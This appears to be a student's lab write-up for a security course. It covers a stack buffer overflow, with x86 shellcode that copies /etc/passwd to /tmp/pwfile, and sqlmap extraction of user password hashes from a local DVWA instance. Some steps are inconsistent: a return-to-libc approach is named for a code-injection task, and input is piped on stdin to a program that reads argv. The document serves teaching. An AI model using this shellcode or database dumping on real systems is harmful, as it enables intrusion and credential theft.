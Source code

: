 # Lab #1, 22110082, Nguyen Duc Tri, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

 **Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 
## 1. Create the assembly shell code named `shellcode.asm` and the given C code named `vuln.c`:
*Copy the assembly code above and save it in the assembly file:* <br> 

## 2. First, compile the Assembly ShellCode: 
*Use `nasm` to assemble the code into an object file:*

```sh
nasm -f elf32 -o shellcode.o shellcode.asm
```

*Link the object file to create an executable file using `ld`:* 

```sh
ld -m elf_i386 -o shellcode shellcode.o
```

*Observe the shellcode in machine format:* 

```sh
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
*The printed result shows a 97 bytes long:*

![image](https://github.com/user-attachments/assets/200af312-f8e9-436d-95af-dd62ac86c2a6)



## 3. Next, compile the C program: 
*Compile the C code using `gcc`:* <br> 

```sh
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```


## 4. Stack Frame Visualization: 
![image](https://github.com/user-attachments/assets/9a7f47b2-94da-4e3f-8255-f84f2c618f6f)

**Conclusion:** *The program has a vulnerability in the `strcpy` call, where an attacker can overflow the buffer variable in `main`. This allows us to overwrite the saved return address on the stack.* 

## 5. Prerequisite for the attack: 
*In this case, I will use a Return-to-lib-c attack* <br> 
*First, we need to know the address of ebp:* 

```sh
disas main
```
![image](https://github.com/user-attachments/assets/dc32b882-b763-448c-8f0e-d8a593cb7064)




## 6. Conduct an attack: 
*Construct a payload*: 

![image](https://github.com/user-attachments/assets/403a0863-cb42-41a9-9e86-41d9bdde6f65)

```sh
python exploit.py | ./vuln
```


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases <br>
**Answer 1**: <br>
## 1. Identify the vulnerable URL: 
*Let proceed to the cookies when entering ID = 2* 

![image](https://github.com/user-attachments/assets/ef903365-d7e6-419e-9d59-59052b30ef77)

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"    
```

*Revealing the DVWA tables:*
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"  -D dvwa --tables 
```
![image](https://github.com/user-attachments/assets/0a43a875-621d-4dd9-bf8a-12ede9fa3cf2)


*Revealing the database schemas:*

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --schema --batch
```
![image](https://github.com/user-attachments/assets/ea59799d-ff40-45ed-be1a-a9a845666ea4)


**Question 2**: Use sqlmap to get tables, users information <br>
**Answer 2**: <br>
*To observe the users information within DVWA, we can use:* <br> 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --columns -T users --batch  
```
![image](https://github.com/user-attachments/assets/946a78a8-58b5-48a0-a967-63884a581622)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit <br>
**Answer 3**: <br> 
*Dump usernames and passwords: 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --dump -T users --batch
```
![image](https://github.com/user-attachments/assets/740644fb-bc79-4c46-b998-02535fe6b624)











